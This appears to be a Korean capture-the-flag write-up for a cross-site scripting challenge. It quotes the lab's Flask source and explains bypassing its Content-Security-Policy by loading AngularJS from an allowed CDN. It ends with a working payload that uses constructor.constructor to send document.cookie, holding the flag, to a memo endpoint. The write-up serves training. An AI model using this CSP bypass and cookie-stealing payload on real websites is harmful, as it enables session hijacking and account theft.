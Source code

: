 def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
    
xss는 가능하지만, csp가 걸려있군요.     
"https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js" 
이걸 이용해서 우회합니다. 
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script>
표현식으로는 이렇게 되겠군요, 

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""

constructor를 이용해서 경로를 설정한 후 document.cookie를 가져옵니다. 

<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><html ng-app>{{ constructor.constructor("location='memo?memo='+document.cookie")() }}</html>
